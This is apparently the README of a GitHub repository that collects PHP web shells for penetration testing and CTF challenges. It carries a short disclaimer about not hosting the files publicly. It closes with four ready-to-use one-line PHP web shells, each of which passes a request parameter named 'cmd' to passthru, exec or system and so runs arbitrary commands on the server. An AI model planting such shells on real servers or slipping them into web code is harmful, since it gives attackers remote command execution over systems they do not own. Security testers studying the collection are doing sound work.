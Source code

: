 # Common-PHP-web-shells
Common PHP shells is a collection of PHP webshells that you may need for your penetration testing (PT) cases or in a CTF challenge.

Do not host any of the files on a publicly-accessible webserver (unless you know what you are up-to).

These are provided for education purposes only and legitimate PT cases.

I'll keep updating the collection whnever I stumble on any new webshell.

# FYI
For basic features, I recommend one-liners like :

<?php echo passthru($_GET['cmd']); ?>

<?php echo exec($_POST['cmd']); ?>

<?php system($_GET['cmd']); ?>

<?php passthru($_REQUEST['cmd']); ?>
